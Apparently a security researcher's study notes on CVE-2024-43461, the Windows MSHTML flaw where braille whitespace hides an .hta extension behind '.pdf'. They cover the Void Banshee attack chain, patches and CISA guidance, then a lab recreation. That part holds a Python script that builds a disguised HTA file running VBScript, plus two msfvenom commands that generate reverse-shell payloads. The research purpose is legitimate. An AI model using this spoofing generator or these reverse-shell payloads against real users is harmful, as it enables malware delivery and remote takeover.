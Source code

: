 ## [[CVE-2024-43461]] info
- Scored ==8.8/10==
- Reported on September 10 2024
- An attacker needs to convince a potential victim to visit a malicious Web page or to click on an unsafe link for any exploit to work.
- Used in an attack chain along with [[CVE-2024-38112]]
	- Rated 7.5/10
	- Used to craft .URL files that exploited defects inside the disabled internet explorer application. Typically zipped inside emails. URLs take user to compromised webpage that runs VBS scripts, runs powershell and fetch .NET loaders. "This loader operates within the RegAsm.exe process, ultimately deploying the [[Atlantida Stealer]]." [source](https://socprime.com/blog/detect-cve-2024-38112-exploitation-by-void-banshee-apt-in-zero-day-attacks-targeting-windows-users/) 
- Microsoft released 2 patches in July and September 2024. The July updated served to patch CVE-38112, the partner in the attack chain. 
	- KB5029263 (July)
	- KB5043064 (Sept) (Windows 10)

## Chained Attacks
- Attackers used [[CVE-2024-38112]] to navigate to an HTML landing page through Internet Explorer using the [[MHTML Protocol Handler]] inside of a .URL file. "This landing page contains an \<iframe\> which downloads an [[HTA File]] where the HTA extension is spoofed using CVE-2024-43461" to make the file appear to be a PDF to the victim. [source](https://www.darkreading.com/application-security/void-banshee-exploits-second-microsoft-zero-day)

## GPT
```
CVE-2024-43461 is a Windows vulnerability linked to the MSHTML engine, a component responsible for rendering web content. The flaw allows attackers to disguise malicious files, making them appear as safe ones (like PDFs) by manipulating the file extension. Specifically, attackers used braille whitespace characters in filenames to hide the real file extension—HTA (HTML Application). This tricked users into opening harmful files, believing them to be harmless documents.

The vulnerability was actively exploited by a cybercriminal group called Void Banshee. They used it to distribute malware that steals sensitive data, such as passwords and authentication tokens. The flaw was discovered in 2024 and patched in a Microsoft security update. However, even with the fix, the disguised file names could still mislead users, so it's essential to apply security updates and be cautious when handling files from untrusted sources​.
```
## [[MSHTML]]
- Trident (MSHTML) is a proprietary browser engine for the Microsoft Windows version of Internet Explorer, developed by Microsoft. MSHTML debuted with the release of Internet Explorer 4 in 1997
-  Although it's most commonly associated with Internet Explorer, it is also used in other software including versions of Skype, Microsoft Outlook, Visual Studio, and others.
- Microsoft continues to include in Windows for backward compatibility purposes.
## Who is Void Banshee
- Void Banshee is a financially motivated threat actor that researchers have observed targeting organizations in North America, Southeast Asia, and Europe.

## CISA
- Microsoft wants customers to apply its patches from both the July 2024 update and the September 2024 update to fully protect themselves against exploits targeting CVE-2024-43461. Following Microsoft's Sept. 13 update, the US Cybersecurity and Infrastructure Security Agency (CISA) [on Sept. 16 added the flaw](https://www.cisa.gov/known-exploited-vulnerabilities-catalog) to its known exploited vulnerabilities database with a ==deadline of Oct. 7 for federal agencies== to implement the vendor's mitigations for it.
	- [source](https://www.darkreading.com/application-security/void-banshee-exploits-second-microsoft-zero-day)


## Exploring the Attack 
[Source](https://www.bleepingcomputer.com/news/security/windows-vulnerability-abused-braille-spaces-in-zero-day-attacks/)

The files may be delivered in a variety of ways, however As shown below, whitespace is injected using a sequence of whitespace characters to obfuscate the true file extensions. As seen, the it looks as if the file name is terminated after ".pdf" however, **ellipses (...)** can be seen to the far right indicating that file name trails on and is truncated. 
```
Books_A0UJKO.pdf%E2%A0%80%E2%A0%80%E2%A0%80%E2%A0%80%E2%A0%80%E2%A0%80%E2%A0%80%E2%A0%80%E2%A0%80%E2%A0%80%E2%A0%80%E2%A0%80%E2%A0%80%E2%A0%80%E2%A0%80%E2%A0%80%E2%A0%80%E2%A0%80%E2%A0%80%E2%A0%80%E2%A0%80%E2%A0%80%E2%A0%80%E2%A0%80%E2%A0%80%E2%A0%80.hta
```

Above, we can see that the sequence `%E2%A0%80` is repeated 26 times to obfuscate the real extensions as seen below. This creates the character found [here](https://www.compart.com/en/unicode/U+2800). (U+2800)

![[Whtiespace Attack Example.png]]

Supposedly after the September patch this is how the same prompt would appear. Notice that the white space is not removed, however the prompt appears more like a warning. In my opinion this might not stop non-technical people from saving this file. 
![[Whitespace Attack Patched.png]]


## Exploiting it ourselves
Let's recreate this exploit to make sure it works and to see the steps which we would have to secure it. Additionally, we will also boot up a newer version  of the software and see what kind of changes the Microsoft patches have made. I will be using a windows 10 build Version 21H2 OS Build 19044.12888. To verify how the patch behaves, I will be using a cloned version of this VM with patch KB5043064 to observe its behaviour. Base machine:
![[Base VM build.png]]

### Recreating the exploit
To recreate this exploit, I figured it would be best to do most of it within a script, so that we can comment section and clearly view how each part of the exploit works. For the scripting language I chose Python. 

I will proceed the code with a few references that I used to help create it. 
- source 1

```
import urllib.parse

# Number of times braile spaces to be repeated
spaces = 50

# Encoded filename
encoded_filename = "Book.pdf" + "%E2%A0%80"*spaces + ".hta"

# Decode the URL-encoded characters
decoded_filename = urllib.parse.unquote(encoded_filename)

# Create a file with the decoded filename
with open(decoded_filename, 'w') as f:

    # Create HTML 
    f.write("""<html>
  <head>
    <title>CVE-2024-43461</title>
  </head>
  <body>
    <h2>Summoning the calculator</h2>
  </body>""")

    # Payload
    f.write("""<script language="VBScript">
    Function Pwn()
      Set shell = CreateObject("wscript.Shell")
      shell.run "calc"
    End Function

    Pwn
  </script>""")

    #Finalize HTML
    f.write("""</html>""")

print(f"File created with the name: {decoded_filename}")
```

#### File Name
As can be seen above, I utilized the same pattern of `%E2%A0%80` special characters and added a space repeating variable to test how the spacing effects its visibility. 

#### Payload  
[[HTA File]]s can be especially dangerous due to their ability to use scripting locally and access resources not available to browser scripts. These files have access to the following scripting languages:
- Visual Basic Script
- Javascript

Additionally they have access to the following Windows resources which can be especially dangerous when run in Administrator mode. 
- System Registry 
- Local Files
- Memory 
- COM objects 
- ActiveX objects 

##### Msfvenom
Here are a couple ways you could create a shell with msfvenom and this exploit: 
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f vbs --arch x86 --platform win
```

```
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f hta-psh -o shell.hta
```

### Viewing the Patches
For the patched machine, lets observe the behavior of our exploit. First lets verify that it has indeed been patched: 

![[Patched VM build.png]]

Preliminary results show that the article is accurate in its description and screenshots. 